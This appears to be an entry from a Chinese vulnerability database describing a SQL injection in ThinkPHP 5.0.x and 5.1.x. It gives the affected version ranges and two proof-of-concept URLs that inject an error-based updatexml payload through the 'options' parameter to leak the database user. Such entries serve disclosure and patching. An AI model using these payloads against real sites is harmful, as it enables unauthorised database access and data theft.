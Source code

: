 ```yaml
---
title: 'Thinkphp 5.0.(0-21)&5.1.(3-25)sql注入漏洞'
date: Wed, 07 Oct 2020 06:08:04 +0000
draft: false
tags: ['白阁-漏洞库']
---
```


### 漏洞影响

5.0.0 <= ThinkPHP <= 5.0.21 5.1.3 <= ThinkPHP <= 5.1.25

### 漏洞POC

5.0.0~5.0.21 、 5.1.3～5.1.10

```
http://********/index/index/index?options=id)%2bupdatexml(1,concat(0x7,user(),0x7e),1) from users%23 **
```

5.1.11～5.1.25

```
http://********/index/index/index?options=id`)%2bupdatexml(1,concat(0x7,user(),0x7e),1) from users%23 
```





